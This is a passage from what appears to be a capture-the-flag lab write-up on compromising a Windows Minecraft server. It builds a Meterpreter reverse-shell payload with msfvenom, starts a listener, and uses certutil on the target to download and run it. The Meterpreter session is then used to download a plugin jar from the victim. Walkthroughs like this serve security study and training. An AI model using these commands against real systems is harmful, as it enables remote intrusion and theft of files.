 ## Try to Download the playercounter
### Upload meterpreter
`$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.12 LPORT=9001 -f exe -o winmet.exe`
```
msf6 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LPORT 9001
LPORT => 9001
msf6 exploit(multi/handler) > set LHOST 10.10.14.12
LHOST => 10.10.14.12
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.12:9001 
```

Download it
```
c:\users\svc_minecraft\server>certutil -urlcache -f http://10.10.14.12:8000/winmet.exe %temp%/winmet.exe
certutil -urlcache -f http://10.10.14.12:8000/winmet.exe %temp%/winmet.exe
****  Online  ****
CertUtil: -URLCache command completed successfully.
c:\users\svc_minecraft\server>start %temp%/winmet.exe

c:\users\svc_minecraft\server>
```

Then
```
[*] Sending stage (201798 bytes) to 10.10.11.249
[*] Meterpreter session 1 opened (10.10.14.12:9001 -> 10.10.11.249:49753) at 2024-03-09 14:12:42 -0500

meterpreter > pwd
c:\users\svc_minecraft\server
meterpreter > cd plugins
meterpreter > dir
Listing: c:\users\svc_minecraft\server\plugins
==============================================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100666/rw-rw-rw-  9996  fil   2023-10-27 17:48:53 -0400  playercounter-1.0-SNAPSHOT.jar

meterpreter > download playercounter-1.0-SNAPSHOT.jar
[*] Downloading: playercounter-1.0-SNAPSHOT.jar -> /home/kali/Desktop/playercounter-1.0-SNAPSHOT.jar
[*] Downloaded 9.76 KiB of 9.76 KiB (100.0%): playercounter-1.0-SNAPSHOT.jar -> /home/kali/Desktop/playercounter-1.0-SNAPSHOT.jar
[*] Completed  : playercounter-1.0-SNAPSHOT.jar -> /home/kali/Desktop/playercounter-1.0-SNAPSHOT.jar
meterpreter > 
```
